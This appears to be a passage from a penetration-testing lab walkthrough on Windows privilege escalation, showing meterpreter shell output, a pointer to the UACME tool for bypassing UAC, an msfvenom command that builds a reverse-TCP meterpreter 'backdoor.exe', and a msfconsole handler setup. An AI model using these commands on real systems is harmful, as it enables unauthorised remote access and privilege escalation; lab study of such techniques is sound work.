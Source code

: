 To verify this user is a part of local administrator group: The admin user is a part of administrator group, which means this user can execute programs with elevated privileges. But in order to do that, we need to bypass UAC.



```
meterpreter> shell
C:\Windows\system32>net user
User accounts for \\VICTIM
--------------------------------------------------------------------------------
admin       Administrator   Guest
C:\Windows\system32>net localgroup administrators
Members
--------------------------------------------------------------------------------
admin
Administrator
```

The activity of changing password of a user require me to accepect when the UAC consent form or the dialog box was prompted up. And through the command shell that cannot be done unless we bypass UAC.

```
C:\Windows\system32>net user admin password123
System error 5 has occurred.

Access is denied.
```

[UACME](https://github.com/hfiref0x/UACME)

[source code](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi/bin)

`Source->Akagi->bin`

```
C:\Windows\system32>^C
Terminate channel 1? [y/N] y
meterpreter>
```

Generate a meterpreter payload with msfvenom:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > backdoor.exe
```

Set up listener with msfconsole. Set up the multi handler to receive the connection once the payload is executed on the target. So, we have a reverse TCP handler listening on port 1234, ready to receive the connection from the meterpreter payload that we generated.

```
msfconsole

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.5.2
set LPORT 1234
run
```
